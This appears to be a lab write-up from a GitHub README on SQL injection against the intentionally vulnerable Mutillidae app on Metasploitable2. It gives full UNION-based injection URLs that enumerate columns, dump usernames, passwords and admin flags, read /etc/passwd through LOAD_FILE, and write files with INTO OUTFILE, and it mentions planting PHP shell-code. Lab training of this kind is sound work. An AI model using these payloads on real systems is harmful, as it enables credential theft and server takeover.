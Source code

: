 ![Screenshot 2023-06-10 225407](https://github.com/praveenst13/sqlinjection/assets/118787793/68ccd33b-a98d-4ff6-8c19-57e63c2724d0)

The url once executed will  retrieve table names from the “owasp 10” database.
##Extracting sensitive data such as passwords 

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.




![Screenshot 2023-06-10 225659](https://github.com/praveenst13/sqlinjection/assets/118787793/c820f87a-30cb-485b-b423-f6fd0e67c96e)
The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details 

![Screenshot 2023-06-10 225659](https://github.com/praveenst13/sqlinjection/assets/118787793/c820f87a-30cb-485b-b423-f6fd0e67c96e)





Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details

![Screenshot 2023-06-10 225759](https://github.com/praveenst13/sqlinjection/assets/118787793/f7dd79fb-c11c-41f3-8019-06685e9cd759)


## Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details
![Screenshot 2023-06-10 225846](https://github.com/praveenst13/sqlinjection/assets/118787793/13f4a113-06fc-4d62-a8ec-6525c4ec1343)
the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server.
Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).




## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
